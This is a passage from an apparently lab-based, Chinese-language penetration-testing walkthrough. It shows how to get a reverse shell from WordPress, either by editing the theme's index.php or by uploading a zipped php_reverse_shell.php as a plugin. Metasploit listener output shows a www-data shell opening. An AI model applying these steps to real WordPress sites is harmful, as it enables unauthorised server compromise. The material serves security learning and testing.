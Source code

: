 更新 index.php 后访问 wordpress 首页即可接收到 shell

```plain
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 0.0.0.0:9999
[*] Command shell session 10 opened (192.168.0.106:9999 -> 192.168.0.106:58096) at 2024-01-22 20:54:00 +0800


Shell Banner:
Linux 2036cf3ffda3 6.5.13-orbstack-00121-ge428743e4e98 #1 SMP Wed Dec 27 10:22:46 UTC 2023 aarch64 aarch64 aarch64 GNU/Linux
 12:53:55 up  1:07,  0 users,  load average: 1.32, 1.06, 0.89
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

### 方法 2、zip 上传

将 php\_reverse\_shell.php 压缩为 zip 在插件安装页面上传 zip  
[![](assets/1706513536-764c3d4fd32583cc430a32b1bd7cfcbe.png)](https://cdn.nlark.com/yuque/0/2024/png/21402865/1705928820683-3560e5f2-fcf7-4542-b23e-e7868e6ee7fb.png#averageHue=%23d9d9d9&clientId=uc39f9627-399e-4&from=paste&height=613&id=u97f34d8a&originHeight=1226&originWidth=3094&originalType=binary&ratio=2&rotation=0&showTitle=false&size=245185&status=done&style=none&taskId=u6d0bb817-7940-4980-9f3d-ea098eddbc7&title=&width=1547)  
建立监听 稍等片刻即可获得 shell[![](assets/1706513536-b77a485d8dd309c04806bea15eec3da0.png)](https://cdn.nlark.com/yuque/0/2024/png/21402865/1705928908230-f785138f-35b6-45f2-8e4c-e83a9b9cfd85.png#averageHue=%2336393f&clientId=uc39f9627-399e-4&from=paste&height=380&id=u36cc8d33&originHeight=760&originWidth=2350&originalType=binary&ratio=2&rotation=0&showTitle=false&size=253609&status=done&style=none&taskId=u42c88f76-4fc3-424e-8e1f-ecd741c0f65&title=&width=1175)
